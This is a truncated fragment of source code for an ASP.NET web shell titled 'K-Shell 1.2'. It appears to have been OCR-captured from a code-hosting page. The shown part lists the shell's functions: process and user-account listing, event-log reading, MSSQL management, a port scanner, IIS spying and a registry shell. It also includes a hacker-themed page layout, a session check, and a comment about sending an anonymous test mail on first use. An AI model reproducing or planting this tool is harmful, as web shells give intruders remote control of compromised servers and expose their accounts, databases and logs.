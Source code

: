 TITLE="List processes from server"
elseif act="pro2" then 
TITLE="List processes from server"
elseif act="user" then 
TITLE="List User Accounts"
elseif act="applog" then 
TITLE="List Application Event Log Entries"
elseif act="syslog" then 
TITLE="List System Event Log Entries"
elseif act="auser" then 
TITLE="IIS List Anonymous' User details"
elseif act="sqlman" then 
TITLE="MSSQL Management"
elseif act="scan" then 
TITLE="Port Scanner"
elseif act="iisspy" then 
TITLE="IIS Spy"
elseif act="sqltool" then 
TITLE="SQL Tool"
elseif act="regshell" then 
TITLE="Registry Shell"
else 
TITLE=request.ServerVariables("HTTP_HOST") 
end if
%>
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<style type="text/css">
body,td,th {
	color: #00FF00;
	font-family: Courier New;
}
b
{
	color: #00FF00
}
body {
	background-color: #000000;
	font-size:12px;
	font-family:"Courier New";
}
.buttom {color: #FFFFFF; border: 1px solid #084B8E; background-color: #719BC5}
.TextBox {border: 1px solid #084B8E}
.style3 {color: #FF0000}
</style>
<head>
<meta http-equiv="Content-Type" content="text/html">
<title><%=TITLE%></title>
</head>
<body>
<div align="center">K-Shell 1.2 By <a href="http://www.guru.net.vn" target="_blank" title="Welcome to my page:)">kikicoco</a> from <font color="red">Vietnam</font> [<a href="http://vnsecurity.com" target="_blank">VHS</a>]</div>
<hr>
<%
Dim error_x as Exception
Try
if session("kikicoco")<>1 then
'Test sending anonymous mail, comment it if you don't want test it
	dim info As String
	Try